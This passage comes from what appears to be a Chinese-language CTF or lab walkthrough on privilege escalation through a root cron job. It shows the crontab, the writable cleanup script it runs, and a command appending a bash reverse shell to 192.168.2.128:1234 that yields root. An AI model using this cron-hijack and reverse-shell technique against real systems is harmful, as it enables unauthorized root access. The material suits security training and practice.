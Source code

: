            # For details see man 4 crontabs
           
           # Example of job definition:
           # .---------------- minute (0 - 59)
           # |  .------------- hour (0 - 23)
           # |  |  .---------- day of month (1 - 31)
           # |  |  |  .------- month (1 - 12) OR jan,feb,mar,apr ...
           # |  |  |  |  .---- day of week (0 - 6) (Sunday=0 or 7) OR sun,mon,tue,wed,thu,fri,sat
           # |  |  |  |  |
           # *  *  *  *  * user-name  command to be executed
           */5 * * * * root /etc/script/CleaningScript.sh >/dev/null 2>&1
           bash-4.2$ 
           
           # 查看定时任务中的内容
           bash-4.2$ cat /etc/script/CleaningScript.sh 
           cat /etc/script/CleaningScript.sh 
           #!/bin/bash
           
           rm -rf /var/log/httpd/access_log.txt
           bash-4.2$ 
           
           ```
      
      10.   修改或增加定时任务中的内容：
      
      11.   >   bash-4.2$ echo "/bin/bash -i >& /dev/tcp/192.168.2.128/1234 0>&1" >> /etc/script/CleaningScript.sh 
      
      12.   获得root权限：
      
      13.   ![image-20230517133205961](https://raw.githubusercontent.com/r0o983/images/main/image-20230517133205961.png)



